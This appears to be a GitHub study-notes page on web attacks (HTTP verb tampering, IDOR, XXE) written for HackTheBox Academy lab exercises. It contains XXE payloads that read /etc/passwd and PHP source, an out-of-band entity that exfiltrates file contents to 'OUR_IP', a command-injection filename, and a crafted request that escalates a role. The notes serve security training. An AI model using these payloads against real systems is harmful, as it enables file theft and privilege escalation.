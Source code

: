 # Web Application Attacks  

>My [Burp Suite Certified Practitioner Study material](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/README.md) cover some of the same topics listed here, with more detail.  
>[HackTheBox Academy Web Attacks](https://academy.hackthebox.com/module/134/section/1158)  

## HTTP Verb Tampering

>HTTP has 9 different [verbs](https://academy.hackthebox.com/module/134/section/1159) that can be accepted as HTTP methods by web servers.  
>[HTTP Request Methods Mozilla Reference](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)  

### HTTP Methods  
```
GET
HEAD
POST
PUT
DELETE
CONNECT
OPTIONS
PATCH
TRACE
```  

>[Bypassing Basic Authentication](https://academy.hackthebox.com/module/134/section/1175)  


  
| **Command**   | **Description**   |
| --------------|-------------------|
| `-X OPTIONS` | Set HTTP Method with Curl |

## IDOR

>[Insecure Direct Object References (IDOR)](https://academy.hackthebox.com/module/134/section/1179) vulnerabilities.

### Identify IDORS  

>[Identifying IDORs](https://academy.hackthebox.com/module/134/section/1180)  
>[BSCP IDOR Notes](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/README.md#access-control)  

- In `URL parameters & APIs`
- In `AJAX Calls`
- By `understanding reference hashing/encoding`
- By `comparing user roles`

| **Command**   | **Description**   |
| --------------|-------------------|
| `md5sum` | MD5 hash a string |
| `base64` | Base64 encode a string |

>IDOR Mass Enumeration bash script to create MD5 payloads.  

```bash
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```  


## XXE  

>[Intro to XXE](https://academy.hackthebox.com/module/134/section/1203)  
>

| **Code**   | **Description**   |
| --------------|-------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |

# Web Attack Exercises  

>Try to use what you learned in [Bypassing Basic Authentication](https://academy.hackthebox.com/module/134/section/1175) section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.  

![web-attack-auth-bypass-header](/images/web-attack-auth-bypass-header.png)  

>To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./  

>Change the GET method to POST to [bypass security filters](https://academy.hackthebox.com/module/134/section/1178).  

![web-attack-Bypassing-Security-Filters](/images/web-attack-Bypassing-Security-Filters.png)  

>Repeat what you learned in [Mass IDOR Enumeration](https://academy.hackthebox.com/module/134/section/1186) section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.  

![web-attack-IDOR-employee-uid](/images/web-attack-IDOR-employee-uid.png)  

>Intruder with grep for `txt` sniper attack on uid value `1..20`.

![web-attack-IDOR-intruder-flag](/images/web-attack-IDOR-intruder-flag.png)  

>[Bypassing Encoded References](https://academy.hackthebox.com/module/134/section/1187) Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.  

![web-attack-IDOR-Bypassing-Encoded-References](/images/web-attack-IDOR-Bypassing-Encoded-References.png)  

>URL Encode the characters of the payload for the intruder attack above.  

>[IDOR in Insecure APIs](https://academy.hackthebox.com/module/134/section/1201) Try to read the details of the user with 'uid=5'. What is their 'uuid' value?  

>Intercept `Update Profile` request in Burp.  

![web-attack-IDOR-apis](/images/web-attack-IDOR-apis.png)  

>[Chaining IDOR Vulnerabilities](https://academy.hackthebox.com/module/134/section/1200) - Change the admin's email to `flag@idor.htb`, and you should get the flag on the 'edit profile' page.

![web-attack-Chaining-IDOR-Vulnerabilities](/images/web-attack-Chaining-IDOR-Vulnerabilities.png)  

>Create new `PUT` request with the information from the GET request above, and replace JSON field value of email.  

```HTML
PUT /profile/api.php/profile/10 HTTP/1.1
Host: 94.237.56.76:38781
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/json
Content-Length: 179
Connection: close
Cookie: role=employee

{
 "uid":"10","uuid":"bfd92386a1b48076792e68b596846499","role":"staff_admin","full_name":"admin","email":"flag@idor.htb","about":"Never gonna give you up, Never gonna let you down"
}
```  

